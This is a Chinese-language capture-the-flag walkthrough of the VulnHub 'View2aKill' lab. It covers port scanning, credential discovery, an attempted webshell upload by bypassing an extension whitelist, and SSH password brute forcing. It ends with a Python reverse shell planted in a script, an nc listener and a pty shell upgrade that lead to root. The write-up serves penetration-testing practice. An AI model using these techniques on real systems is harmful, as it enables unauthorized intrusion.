

- 靶机信息
- 使命：百万富翁的精神病学家Max Zorin是破坏硅谷计划的幕后策划者，该计划旨在夺取国际微芯片市场的控制权。获得root并阻止这个疯子实现目标！
- 难度：中级
- flag：/root/flag/flag.sh
- 在vmware中使用，启用DHCP
- 学习目标：Web应用程序安全性，脚本，Linux枚举等。
- 官方地址：https://www.vulnhub.com/entry/view2akill-1,387
- 渗透流程
首先使用nmap扫描，获得靶机ipnmap -sP 192.168.183.1/24
然后扫描靶机开启的端口nmap -sV -p- --open 192.168.183.141
发现开启了两个http服务，去看看，8191端口的没什么东西，先不管，80端口的也是只有一个动画。看下源代码。
图片的来源是pics/view4.gif，那我们就去这个文件夹看看
这个文件夹下面全部都是图片和动图，没什么有用的信息，先不管。然后访问一下robots.txt，看看能不能发现什么。
发现了几个不允许爬虫爬取的目录，那么我们就去这几个目录里看看。在zorin目录里面发现了新东西。
一个个点进去看，在第二个发现了有用的信息。
发现了一个新目录，而且说新用户的sendrifugo密码为toor。这个信息先记着。然后其他的页面没发现什么有用的信息。再查看dev目录，发现了很多资料。
发现了一个压缩包，下载下来，解压，里面有4个文件，一个一个打开看看。发现了一个重要信息。
从这里可以知道用户名，密码的话提示是遥控雷管研发视频中的字符串的小写+HID阅读器的传输频率，那我们回到dev目录下面，打开那个remote_control（远程控制）的gif。
知道字符串是helicopter（直升机），再查看dev目录下面的HID开头的那个pdf文件，那是阅读器的文档，找到传输频率。
所以我们现在知道用户名和密码了。用户名：chuck@localhost.com密码helicopter125。
最后一个defense目录下也没什么有用的信息。那我们就去访问一下之前新发现的那个/sentrifugo目录。
正好用我们收集的那个chuck的账户和密码登录。然后去exploit database搜索一下有没有可以利用的漏洞。
确实有文件上传漏洞和sql注入等漏洞，但是都是验证不通过的的，我都试了一下，发现确实都不存在，这里面漏洞的路径我都没有权限访问。但是我还是找到了可以上传文件的地方。
这里可以上传小于2m的文件，而且只是前端后缀名白名单，我们改下webshell的后缀，然后抓包再改回来就可以成功上传。但是我这里不知道为什么上传不了，上传的东西一闪而过就消失了。抓到的包也是空的，倒是每上传一次页面就会多一个form标签。
折腾了两三个小时，各种尝试都试了，发现连正常文件都无法上传，靶机重装了三次都没用，问了下我的小伙伴，发现他根本就没有这个情况，研究了好久，搞不明白，只能无奈放弃从这里上传webshell弹shell了。
思考了一下，我们还有一个SSH服务没有尝试，之前在那个网页看到一个密码toor还没有用到，就把这个当SSH的密码，去爆破一下看看，使用常用英文用户名字典成功爆破
使用SSH连接ssh bob@192.168.183.141，进入系统后惯例四处翻翻。首先去看看home目录下面的用户文件夹。发现有四个用户。
都进去看看。发现jenny目录里面有一个dsktp_backup.zip，我们解压一下，发现有passsword.txt和todo.txt两个文件，打开。
得到jenny的SSH密码，而且告诉我们要把最终的脚本放到max/aView.py里面。那我们首先就换成jenny用户。进入max目录，发现还有个note.txt，打开看看
这段话大致意思是在8191端口的一个网页可以远程执行max的计划，估计应该就是aView.py这个脚本，然后这个页面的网址是由sha1(小写字母+view+两个数字)得出来的，那我们就可以写个脚本把这个网址跑出来。
1 | import hashlib |
但是跑出来的结果非常多
我们随便访问一个链接看看。发现链接是正常的，但是只有一个动画，看看http头
那我们就加个条件
1 | if (res.status_code == 200) and (int(res.headers['content-length'])) > 167: |
再跑一遍，结果只有一个
http://192.168.183.141:8191/7f98ca7ba1484c66bf09627f931448053ae6b55a，访问一下。
点一下execute按钮，发现页面显示的内容是aView.py的内容。

那我们把python弹shell的语句写入这个py文件，执行一下。
1 | import socket,subprocess,os; |
然后在kali监听1234端口nc -lvnp 1234然后去点一下按钮，成功拿到shell，然后使用python -c'import pty; pty.spawn("/bin/bash")'把shell变成交互式的。
拿到root权限，去拿flag。访问它的8007端口。渗透完成